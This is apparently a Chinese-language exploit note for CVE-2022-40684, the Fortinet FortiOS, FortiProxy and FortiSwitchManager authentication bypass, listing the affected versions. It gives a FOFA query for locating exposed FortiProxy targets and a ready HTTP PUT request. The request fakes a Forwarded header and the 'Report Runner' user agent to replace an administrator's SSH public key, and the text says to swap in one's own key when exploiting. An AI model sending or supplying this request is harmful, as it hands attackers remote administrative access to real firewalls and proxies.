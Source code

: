 # Fortinet FortiOS admin 远程命令执行漏洞 CVE-2022-40684

## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

```
FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiSwitchManager <= 7.2.0、7.0.0
```

## FOFA

```
title="FortiProxy"
```

## 漏洞复现

登录页面

![image-20221024102035598](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210241020634.png)

验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

![image-20221024102051085](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210241020134.png)